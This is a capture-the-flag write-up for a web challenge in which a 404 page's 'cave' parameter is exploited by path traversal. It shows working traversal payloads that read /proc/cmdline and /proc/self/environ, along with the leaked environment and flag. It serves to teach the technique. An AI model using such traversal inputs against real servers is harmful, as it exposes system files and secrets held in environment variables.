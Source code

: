 # Writeup
## Solve process 1
The challenge deeply hints that something is wrong with the environment, and begs us to enter an invalid path.

When we enter an invalid path, we see a funky 404 page, specifically one with what looks to be a `/` in it.

## Solve process 2
Start at `robots.txt`

This says to avoid a path, so we enter it, and get sent to the 404 page.

## 404 page:

`cave=adventure/secret_map`

Combined with the hint for environment, this looks like this may be path injection.

Indeed, entering `../../../../../../../../../../proc/cmdline` reveals `initrd=\initrd.img WSL_ROOT_INIT=1 panic=-1 nr_cpus=12 hv_utils.timesync_implicit=1 console=hvc0 debug pty.legacy_count=0`

Changing it to `cave=adventure/../../../../../../../../../../proc/self/environ`, we get the contents of the environment and the flag.

```
HOSTNAME=17ca8307c07fPYTHON_VERSION=3.11.9PWD=/opt/chalDOMAIN=your-domainPYTHON_SETUPTOOLS_VERSION=65.5.1HOME=/home/unprivilegedLANG=C.UTF-8GPG_KEY=A035C8C19219BA821ECEA86B64E628F8D684696DFLAG=sun{lf1_us1ng_proc_f1les_1s_fUN}SHLVL=0PYTHON_PIP_VERSION=24.0PYTHON_GET_PIP_SHA256=6fb7b781206356f45ad79efbb19322caa6c2a5ad39092d0d44d0fec94117e118PYTHON_GET_PIP_URL=https://github.com/pypa/get-pip/raw/66d8a0f637083e2c3ddffc0cb1e65ce126afb856/public/get-pip.pyPATH=/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

flag: `sun{lf1_us1ng_proc_f1les_1s_fUN}`
